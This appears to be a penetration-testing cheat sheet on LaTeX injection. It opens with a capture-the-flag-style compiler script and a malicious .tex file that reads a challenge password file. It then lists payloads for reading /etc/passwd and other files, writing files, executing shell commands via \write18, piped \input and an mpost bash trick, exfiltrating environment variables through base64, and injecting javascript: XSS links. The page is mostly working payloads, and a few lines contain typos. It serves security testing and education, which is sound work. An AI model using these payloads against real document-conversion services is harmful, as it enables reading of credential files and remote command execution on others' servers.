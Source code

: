 
In computing, **LaTeX** is a typesetting system commonly **used for creating documents that require precise formatting**, such as academic papers, technical reports, presentations, and scientific articles. LaTeX is widely used in academia, especially in fields such as mathematics, computer science, engineering, physics, and other technical disciplines.


## Input

Latex `input` statement in vulnerable to information disclosure.  
It allows to include file content into PDFs for example

***PDF Maker (Latex compiler)***
```bash
#!/usr/bin/env bash                                                    

if [[ $# -ne 1 ]]; then                                                
    echo "Usage : ${0} TEX_FILE"                                       
fi                                                                     

if [[ -f "${1}" ]]; then                                               
    TMP=$(mktemp -d)                                                   
    cp "${1}" "${TMP}/main.tex"                                        

    # Compilation                                                      
    echo "[+] Compilation ..."                                         
    timeout 5 /usr/bin/pdflatex \                                      
        -halt-on-error \                                               
        -output-format=pdf \                                           
        -output-directory "${TMP}" \                                   
        -no-shell-escape \                                             
        "${TMP}/main.tex" > /dev/null                                  

    timeout 5 /usr/bin/pdflatex \                                      
        -halt-on-error \                                               
        -output-format=pdf \                                           
        -output-directory "${TMP}" \                                   
        -no-shell-escape \                                             
        "${TMP}/main.tex" > /dev/null                                  

    chmod u+w "${TMP}/main.tex"                                        
    rm "${TMP}/main.tex"                                               
    chmod 750 -R "${TMP}"                                              
    if [[ -f "${TMP}/main.pdf" ]]; then                                
        echo "[+] Output file : ${TMP}/main.pdf"                       
    else                                                               
        echo "[!] Compilation error, your logs : ${TMP}/main.log"      
    fi                                                                 
else                                                                   
    echo "[!] Can't access file ${1}"                                  
fi                                                                     
```

**Usage :**
```bash
./compiler LATEXFILE.tex
```

The fact is that if the compiler runs with privileges, it can read files content (if the owner have read rights)

**Malicious file :**
```latex
\documentclass{article}

\usepackage{verbatim} % Pour utiliser \verbatiminput

\title{Inclusion du fichier .passwd dans LaTeX}
\author{}
\date{}

\begin{document}

\maketitle

Voici le contenu du fichier \texttt{.passwd} :

\verbatiminput{/challenge/app-script/ch23/.passwd}

\end{document}
```


# LaTeX Injection

Usually the servers that will find on the internet that **convert LaTeX code to PDF** use `**pdflatex**`. This program uses 3 main attributes to (dis)allow command execution:

- `**--no-shell-escape**`: **Disable** the `\write18{command}` construct, even if it is enabled in the texmf.cnf file.
    
- `**--shell-restricted**`: Same as `--shell-escape`, but **limited** to a 'safe' set of **predefined** **commands (**On Ubuntu 16.04 the list is in `/usr/share/texmf/web2c/texmf.cnf`).
    
- `**--shell-escape**`: **Enable** the `\write18{command}` construct. The command can be any shell command. This construct is normally disallowed for security reasons.
    

However, there are other ways to execute commands, so to avoid RCE it's very important to use `--shell-restricted`.

## Read file

You might need to adjust injection with wrappers as [ or $.

```latex
\input{/etc/passwd}
\include{password} # load .tex file
\lstinputlisting{/usr/share/texmf/web2c/texmf.cnf}
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

#### Read single lined file

```latex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

#### Read multiple lined file

```latex
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```


#### Write file

```latex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```

#### Command execution

**The input of the command will be redirected to stdin, use a temp file to get it.**

```latex
\immediate\write18{whoami > output}
\input{output}

\input{|"/bin/hostname"}
\input{|"extractbb /etc/passwd > /tmp/b.tex"}

# allowed mpost command RCE
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (id;uname${IFS}-sm)>/tmp/pwn" "x.mp"}
\end{document}

# If mpost is not allowed there are other commands you might be able to execute
## Just get the version
\input{|"bibtex8 --version > /tmp/b.tex"}
## Search the file pdfetex.ini
\input{|"kpsewhich pdfetex.ini > /tmp/b.tex"}
## Get env var value
\input{|"kpsewhich -expand-var=$HOSTNAME > /tmp/b.tex"}
## Get the value of shell_escape_commands without needing to read pdfetex.ini
\input{|"kpsewhich --var-value=shell_escape_commands > /tmp/b.tex"}
```

If you get any LaTex error, consider using base64 to get the result without bad characters

```
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```
\input|ls|base4
\input{|"/bin/hostname"}
```

#### Cross Site Scripting

From [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130)

```
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```